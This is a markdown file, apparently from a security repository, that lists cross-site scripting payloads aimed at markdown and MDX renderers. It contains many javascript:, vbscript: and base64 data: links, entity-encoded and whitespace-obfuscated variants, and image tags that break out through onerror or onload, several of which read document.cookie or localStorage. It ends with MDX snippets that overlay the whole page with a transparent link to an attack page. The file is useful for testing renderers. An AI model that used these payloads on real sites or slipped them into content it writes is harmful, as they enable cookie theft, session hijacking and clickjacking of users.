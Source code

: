 # XSS

[click me](javascript:alert("XSS"))

## Examples from https://github.com/JakobTheDev/information-security/blob/master/Payloads/md/XSS.md
[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))
![Escape SRC - onerror]("onerror="alert('ImageOnError'))

[XSS](javascript:prompt(document.cookie))
[XSS](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[XSS]: (javascript:prompt(document.cookie))
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0aprompt(1))
[XSS](javascript://%0d%0aprompt(1);com)
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)
[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](vbscript:alert(document.domain))
[XSS](javascript:this;alert(1))
[XSS](javascript:this;alert(1&#41;)
[XSS](javascript&#58this;alert(1&#41;)
[XSS](Javas&#99;ript:alert(1&#41;)
[XSS](Javas%26%2399;ript:alert(1&#41;)
[XSS](javascript:alert&#65534;(1&#41;)
[XSS](javascript:confirm(1)
[XSS](javascript://www.google.com%0Aprompt(1))
[XSS](javascript://%0d%0aconfirm(1);com)
[XSS](javascript:window.onerror=confirm;throw%201)
[XSS](�javascript:alert(document.domain&#41;)
![XSS](javascript:prompt(document.cookie))\
![XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
![XSS'"`onerror=prompt(document.cookie)](x)\



## XSS with MDX

{<a href="javascript:alert('XSS')">Click Me</a>}


{ (() => {
  return (
    <a href="http://example.com/attack.html" style={{display: "block", zIndex: 100000, opacity: 0.5, position: "fixed", top: "0px", left: 0, width: "1000000px", height: "100000px", backgroundColor: "red"}}> </a>
    )}
  )() 
}

{ (() => {
  return (
    <div style={{display: "block", zIndex: 100000, opacity: 0.5, position: "fixed", top: "0px", left: 0, width: "1000000px", height: "100000px", backgroundColor: "red"}}> <a href="http://example.com/attack.html"> </a> </div>
    )}
  )() 
}
